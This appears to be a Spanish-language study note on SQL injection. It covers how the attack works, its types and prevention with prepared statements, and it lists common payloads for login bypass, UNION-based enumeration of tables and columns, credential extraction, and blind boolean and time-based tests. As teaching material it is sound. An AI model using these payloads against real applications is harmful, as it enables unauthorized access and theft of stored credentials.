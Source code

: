 #Software #Hacking #Computación #Programación 
## Inyección [[SQL]] (SQL Injection)

### 🔹 **¿Qué es la inyección SQL?**

La inyección SQL es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante manipular las consultas SQL enviadas a la base de datos. Ocurre cuando los datos ingresados por el usuario no son validados ni sanitizados correctamente, permitiendo ejecutar comandos maliciosos en la base de datos.

### 🔹 **¿Cómo funciona?**

Los ataques de inyección SQL explotan la concatenación directa de entradas de usuario en las consultas SQL. Por ejemplo:

```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND contraseña = '12345';
```

Si la aplicación no valida los datos, un atacante podría ingresar lo siguiente en el campo de contraseña:

```sql
' OR '1'='1
```

Lo que generaría una consulta maliciosa como:

```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND contraseña = '' OR '1'='1';
```

Dado que `'1'='1'` es siempre **verdadero**, el atacante podría acceder sin conocer la contraseña.

### 🔹 **Tipos de inyección SQL**

1. **Inyección basada en error**: El atacante provoca errores en la base de datos para obtener información sensible.
    
2. **Inyección UNION**: Se usa `UNION` para combinar resultados y extraer datos.
    
3. **Inyección a ciegas (Blind SQL Injection)**: No muestra errores, pero permite inferir información a través de respuestas booleanas o temporales.
    
4. **Inyección fuera de banda**: Usa canales externos (como DNS o HTTP) para exfiltrar datos.
    

### 🔹 **Cómo prevenir la inyección SQL**

✅ **Usar consultas preparadas (Prepared Statements)**  
✅ **Validar y sanitizar entradas de usuario**  
✅ **Restringir permisos en la base de datos**  
✅ **Evitar mostrar errores detallados al usuario**  
✅ **Usar un firewall de aplicaciones web (WAF)**

### 🔹 **Ejemplo de código seguro en Python con SQLAlchemy**
```python
from sqlalchemy import text

query = text("SELECT * FROM usuarios WHERE usuario = :usuario AND contraseña = :contraseña")
resultado = conexion.execute(query, {"usuario": usuario, "contraseña": contraseña})
```

Este método evita la inyección SQL al tratar los datos como parámetros en lugar de concatenar texto.

## Payloads en Inyección SQL (SQLi)

### 🔹 **¿Qué es un payload en SQLi?**

Un **payload** es una cadena de código malicioso diseñada para explotar una vulnerabilidad de **inyección SQL** (SQLi). Estos payloads manipulan las consultas SQL para extraer datos, evadir autenticaciones o incluso modificar la base de datos.

### 🔹 **Ejemplos de Payloads Comunes**

A continuación, algunos de los payloads más utilizados según el tipo de inyección SQL:

#### **1️⃣ Autenticación Bypass (Saltarse el login)**

```sql
' OR '1'='1' --
```

Este payload siempre evalúa como **verdadero** y permite el acceso sin necesidad de una contraseña.

#### **2️⃣ Enumeración de tablas con UNION**

```python
' UNION SELECT null, table_name FROM information_schema.tables --
```

Este payload permite listar las tablas de la base de datos.

#### **3️⃣ Enumeración de columnas**

```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' -- 
```

Este payload extrae los nombres de las columnas de una tabla específica.

#### **4️⃣ Extraer credenciales**

```sql
' UNION SELECT usuario, contraseña FROM usuarios --
```

Permite obtener los nombres de usuario y contraseñas almacenados en la base de datos.

#### **5️⃣ Inyección SQL a ciegas (Blind SQLi)**

✅ **Basada en booleanos (true/false)**

```sql
' AND 1=1 --  (Devuelve datos) ' AND 1=2 --  (No devuelve datos)
```

✅ **Basada en tiempos (Time-Based)**

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

Si la consulta tarda en responder, significa que es vulnerable a SQLi.

### 🔹 **Herramientas para probar Payloads**

- **sqlmap** (automatiza la detección y explotación de SQLi)
    
- **Burp Suite** (permite interceptar y modificar peticiones web)
    
- **Havij** (herramienta de inyección SQL automatizada)
    

### 🔹 **Cómo prevenir los ataques con payloads SQLi**

✅ **Usar consultas preparadas (Prepared Statements)**  
✅ **Evitar la concatenación de strings en SQL**  
✅ **Validar y sanitizar entradas de usuario**  
✅ **Restringir permisos en la base de datos**  
✅ **Monitorear actividad inusual en la BD**